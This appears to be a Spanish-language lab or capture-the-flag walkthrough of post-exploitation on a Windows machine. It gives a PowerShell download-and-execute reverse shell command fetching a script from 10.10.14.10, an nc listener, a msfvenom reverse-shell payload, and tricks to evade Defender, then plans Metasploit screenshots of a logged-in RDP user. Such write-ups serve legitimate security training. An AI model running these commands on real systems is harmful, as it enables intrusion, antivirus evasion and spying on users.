 <img src="https://user-images.githubusercontent.com/55555187/186381907-cd53b7df-42fb-42d6-bfee-f47fe50e9a7c.png" title="" alt="image" width="384">

Me paso *WinPEAS* desde mi máquina víctima, lo ejecuto e inmediatamente veo dos problemas:

1. No puedo ver todo el histórico de la sesión por lo que el output de *WinPEAS* sale a medias.

2. No salen los colores por lo que es un dolor revisar el output

Intento derivar el output a un fichero y posteriormente copiarlo en mi máquina haciendo uso de *smbserver.py* pero por algún motivo no me deja realizar la operación de copia.

Intento entablarme una reverse shell para lo cual utilizo los siguientes métodos:

1. *ConPtyShell*
   
   1. Me descargo el archivo *Invoke-ConPtyShell.ps1* del repositorio de *Github*
   
   2. Renombro todo lo que se llame *ConPtyShell* a *Surprise*
   
   3. Cambio el nombre del archivo a *rev.ps1*
   
   4. Elimino los comentarios de ayuda del inicio
   
   Los pasos 2,3 y 4 se hacen para que el *Defender* no lo detecte como *malware*
   
   Ejecuto los pasos que se indican en el repositorio:
   
   *cliente*:
   
   ```powershell
   IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.10/rev.ps1'); surprise 10.10.14.10 443
   ```
   
   *servidor:*
   
   ```bash
   stty raw -echo; (stty size; cat) | nc -lvnp 443
   ```
   
   Obtengo la shell pero se congela la terminal, repito el mismo proceso un par de veces  y obtengo el mismo resultado por lo que busco otra alternativa

2. *Reverse shell con msfvenom*
   
   1. Creo un archivo ejecutable usando *msfvenom*
      
      ```bash
      msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe > rev.exe
      ```
   
   2. Lo descargo en la máquina víctima y lo ejecuto en *C:\Utils* ya que el *Defender* no revisa esa ruta
   
   3. Obtengo una shell    

Una vez que tengo la shell en mi terminal, lanzo *winPEAS* y veo que hay un usuario activo en el sistema a través de *RDP*:

![image](https://user-images.githubusercontent.com/55555187/186405594-66ec4487-c643-49af-8e96-0319794e7b7e.png)

Creo un archivo ejecutable para obtener una sesión usando *metasploit* ya que voy a necesitar una forma de ver lo que está haciendo el usuario y para ello es muy cómodo el comando *screenshoot* de *metasploit*.
